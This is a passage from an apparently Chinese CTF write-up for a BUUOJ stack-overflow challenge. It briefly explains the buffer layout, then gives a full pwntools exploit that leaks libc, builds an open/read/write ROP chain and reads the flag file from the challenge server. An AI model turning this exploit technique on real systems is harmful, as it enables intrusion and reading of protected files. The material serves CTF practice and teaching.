 buf离栈底0x70，也就是我们正好只能覆盖完返回地址不能再多了，覆盖完返回地址，下个8字节就是我们上次输入的东西，所以两次输入可以连起来，作为一个ROP链。

#### exp：

```assembly
# -*-coding:utf-8-*-
from pwn import *

io = remote("node3.buuoj.cn", 28082)

io.recvuntil("Here is my gift: 0x")

puts_addr = int(io.recv(12), 16)
print(hex(puts_addr))

libc = ELF("./libc-2.23.so")
base = puts_addr - libc.symbols["puts"]

pop_rdi_ret = base + 0x21102
pop_rsi_ret = base + 0x202e8
pop_rdx_ret = base + 0x1b92

open_addr = base + libc.symbols['open']
#free_hook = libcbase_addr+libc.symbols['__free_hook']
libc_bss = base + 0x3c5720
read_addr = base + libc.symbols['read']
#puts_addr = libcbase_addr+libc.symbols['puts']
write_addr = base + libc.symbols['write']

#   写入read函数的调用，之后我们传入‘flag’这4个字符，作为下面open，read，write的文件名
payload =  p64(0) + p64(pop_rsi_ret) + p64(libc_bss) + p64(pop_rdx_ret) + p64(0x100) + p64(read_addr)
#	写入open函数的调用，打开名为‘flag’的文件
payload += p64(pop_rdi_ret) + p64(libc_bss) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
#	写入read函数的调用，读出‘flag’文件里的内容
payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(libc_bss) + p64(pop_rdx_ret) + p64(0x100) + p64(read_addr)
#	写入write函数的调用，打印出‘flag’文件里的内容
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(libc_bss) + p64(pop_rdx_ret) + p64(0x100) + p64(write_addr)

io.sendafter("Input something: ", payload)
io.sendafter("What's your name?",'a'* (0x70 + 8) + p64(pop_rdi_ret))
io.send("flag")

io.interactive()
```


